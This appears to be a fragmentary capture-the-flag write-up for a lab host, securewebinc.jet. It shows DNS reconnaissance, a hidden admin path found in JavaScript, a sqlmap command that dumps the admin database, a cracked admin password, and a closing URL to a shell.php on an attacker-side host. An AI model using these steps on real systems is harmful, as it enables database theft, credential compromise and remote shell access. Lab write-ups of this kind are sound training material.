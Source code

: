 Looks like two bins on port 5555 and 7777


```
$ dig -x 10.13.37.10 @10.13.37.10

; <<>> DiG 9.14.9 <<>> -x 10.13.37.10 @10.13.37.10
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 44128
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.	IN	PTR

;; AUTHORITY SECTION:
37.13.10.in-addr.arpa.	604800	IN	SOA	www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800

;; Query time: 78 msec
;; SERVER: 10.13.37.10#53(10.13.37.10)
;; WHEN: Wed Jan 08 16:34:54 GMT 2020
;; MSG SIZE  rcvd: 109
```

```
http://www.securewebinc.jet/js/secure.js
```


"function getStats()
{
    $.ajax({url: \"/dirb_safe_dir_rf9EmcEIx/admin/stats.php\",

        success: function(result){
        $('#attacks').html(result)
    },
    error: function(result){
         console.log(result);
    }});
}
getStats();
setInterval(function(){ getStats(); }, 10000);"

```
http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php
```


## Bypassing Authentication

```
 sqlmap -r `pwd`/r.txt --database jetadmin -dbs --dump
 ```


```
+----+------------------------------------------------------------------+----------+
| id | password                                                         | username |
+----+------------------------------------------------------------------+----------+
| 1  | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 | admin    |
+----+------------------------------------------------------------------+----------+
```

```
admin:Hackthesystem200
```

## Command


http://10.13.14.7:8000/shell.php